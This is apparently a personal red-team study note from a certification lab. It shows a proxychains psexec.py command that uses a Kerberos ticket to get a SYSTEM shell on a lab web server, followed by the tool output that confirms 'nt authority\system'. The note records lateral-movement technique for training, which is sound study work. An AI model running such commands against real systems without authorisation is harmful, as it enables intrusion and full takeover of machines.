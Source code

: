 
We can use `psexec.py` (another impacket tool) to get a SYSTEM shell. 

```
ubuntu@DESKTOP-3BSK7NO ~> proxychains psexec.py -dc-ip 10.10.122.10 -target-ip 10.10.122.30 -no-pass -k dev.cyberbotic.io/jking@web.dev.cyberbotic.io
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.30:445-<><>-OK
|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.10:88-<><>-OK
[*] Creating service msin on 10.10.122.30.....
[*] Starting service msin.....
|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.30:445-<><>-OK
|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.10:88-<><>-OK
Microsoft Windows [Version 10.0.20348.887]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> hostname && whoami
web
nt authority\system

```

### Properties
---
📆 created   {{17-02-2024}} 18:29
🏷️ tags: #redteam #crto 

---

